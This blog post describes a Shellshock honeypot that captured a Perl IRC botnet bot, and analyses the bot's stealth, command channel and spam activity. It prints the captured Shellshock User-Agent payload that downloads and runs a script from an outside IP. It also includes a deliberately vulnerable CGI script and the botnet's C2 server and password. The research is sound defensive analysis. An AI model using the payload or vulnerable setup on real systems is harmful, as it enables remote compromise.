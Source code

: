 ```yaml
---
layout: post
title: "A close look at an operating botnet"
description: ""
category: Botnet
tags: []
image: /assets/images/botnet/cover.png
---
```

{% include JB/setup %}

For those that don't know, a [botnet](https://en.wikipedia.org/wiki/Botnet) is a network of hacked computers that somehow connect
back to a command and control server which instructs the network to conduct malicious activities like DDOS attacks, phishing, or spam.

# What happened

This past summer, I decided to set up a honey pot server.  I hadn't done something like
that before and I was curious to see what would show up.

I set up a fresh Digital Ocean instance and installed a vulnerability that could be
remotely exploited.  I choose to use the [shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) 
bug and installed an [older version of bash](http://ftp.gnu.org/gnu/bash/).  Shellshock was a vulnerability in Bash that
would execute code in a environment variable.  This can easily be exploited remotely because of how CGI web servers
pass arguments through environment variables.

After installing Bash 4.2, I set up an Apache web server to serve CGI.  So common URL's
and 404's would all map to one simple, shellshock-vulnerable script:

```bash
#!/bin/bash
echo -e "Content-type:text/html\r\n\r\n"
echo "Hi $HTTP_USER_AGENT"
```

Functionally the script just returns a text page saying hi to whatever the user agent string was.  But if an HTTP request
were to look something like this:

```
GET /hello HTTP/1.1
Host:        104.131.107.238
User-Agent:  () { :;}; /bin/bash -c "cd /tmp;lwp-download -a http://23.229.121.189/ex;curl -O http://23.229.121.189/ex;wget http://23.229.121.189/ex;perl /tmp/ex*;perl ex;rm -rf /tmp/ex*"
```

Then Bash 4.2 will execute the code in the User-Agent string, which downloads a Perl script, [ex](https://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex), and runs it.

This after leaving the server running for a couple months, that is exactly what happened.

# Analysis

To summarize the Perl script, it's about 500 lines, connects to a server, `wileful.com`, and listens for commands.
[Some of the commands](https://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex#L298) it looks for
include `tcpflood`, `eval`, and `shell`.  This looks like functionality for a botnet bot.  

It also implements some stealth.  Upon running the program,
it immediately [forks](ihttps://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex#L39) a `/usr/sbin/httpd` process, 
overwrites it with the Perl process using `exec`, and detaches from the parent process so it
can run independently in the background.

So you won't be able to see a new perl process running.  Instead, a new `/usr/sbin/httpd` process will be running.

```bash
root@b0b6000146fa:~# perl ex 
root@b0b6000146fa:~# ps aux |grep perl
root        31  0.0  0.0   8860   648 ?        S+   16:30   0:00 grep --color=auto perl
root@b0b6000146fa:~# ps aux |grep httpd
root        29  0.0  0.0  24516  3856 ?        S    16:30   0:00 /usr/sbin/httpd
root        33  0.0  0.0   8860   644 ?        S+   16:30   0:00 grep --color=auto httpd
```

If you check the CPU usage of processes, however, `/usr/sbin/httpd` sticks out like a sore thumb because it
[polls the server socket with no timeout](https://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex#L83)
after it connects.  This spins the CPU (oops).

```
# Output from top
  PID USER      PR  NI    VIRT    RES    SHR S   %CPU %MEM     TIME+    COMMAND
  8440 root     20   0   24984   3696    408 R   99.9  0.7     1921:38  /usr/sbin/httpd
```

I wanted to see what the program communicated with the server so I put it in a docker container and ran tcpdump.
After it initially connected with the server, these messages were sent:

```bash
# Bot  (5.9.118.150 is wileful.com)
USER GNU 104.131.107.238 5.9.118.150 :GN
PASS swedenrocks
# Server
:Unreal.conf NOTICE AUTH :*** Looking up your hostname...
:Unreal.conf NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
:Unreal.conf 433 * GNU :Nickname is already in use.
NICK GNU4387
# Server
PING :DEFB9868
# Bot
PONG :DEFB9868
# Server
:Unreal.conf 001 GNU4387 :Welcome to the XpowerHost IRC Network GNU4387!GNU@104.131.107.238
:Unreal.conf 002 GNU4387 :Your host is Unreal.conf, running version Unreal3.2.10.5
:Unreal.conf 003 GNU4387 :This server was created Mon Sep 28 2015 at 20:41:48 EDT
```

Some of you may immediately recognize this as IRC.  This botnet seems kind of old school: no SSL
and controlled over IRC.

Well it looks like I have a username, password, and server address.  Why don't I try logging 
into the botnet with a regular IRC client?

I fired up another docker instance, [Weechat](https://weechat.org/), and a tor proxy.  After
connecting to `irc://GNU:swedenrocks@wileful.com:443`, this is what I saw:

![Connected to botnet](/assets/images/botnet/connected.png "Connected to a botnet")

Wow, there's a total of 977 connected 'users' and 6 different channels.  As seen from tcpdump, my bot was instructed
to join channel `#113` so I figured I would do the same:

![Channel #113](/assets/images/botnet/113-2.png "Channel #113")

Either all 932 clients in the channel are pretty unoriginal when coming up with a nick or the bots are assigned a nick formatted like `GNU<ID>`.
Everyone is really shy too, because no one says anything.  After idling in the channel for a few minutes, this is all to be 
seen:

![Just leaving and joining](/assets/images/botnet/idle.png "Just leaving and joining")

Looks like bots are actively leaving and joining.  I suspect that the operaters were moving around the bots
or were continually exploiting shellshock vulnerable machines like my honey pot.

I wanted to see if I could send commands to the botnet since I had access to the channels, but after
a couple hours of unfurling the perl script, I discovered that it [authenticates](https://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex#L127) commands based on the 
[servername and nickname in the IRC message](https://tools.ietf.org/html/rfc2812#section-2.3.1).  I
could not spoof this since it was something only an operator on the IRC network could do.

# Back to the infected honey pot

I let my infected honey pot run for a few days and I checked out 
the IRC tranactions in the pcap logs.  On intervals it would do the following:

* Download a script to send emails with attachments.
* Download a list of email addresses.
* Run the script with the list of emails and possibly other files.

This is probably for phishing attacks or spam.  No DOS attacks.

# Conclusion

I didn't want my honey pot to be contributing to illegal activities, so I shut it down.

It wasn't long before I couldn't log in to the IRC network on `wileful.com`.  

![No more access](/assets/images/botnet/nope.png "No more access")

At first I thought I got
locked out, but after scanning it from multiple different IP addresses I never used before,
it was still unresponsive.  I suspect that the botnet moved to another server or stopped accepting new connections.


My setup for the honey pot and my results from this analysis can be found [here](https://github.com/conorpp/fluffy-barnacle).
If you have any similar experience with this or know more, please send me a message. I'd like to learn more.


{% include JB/mytwitter %}
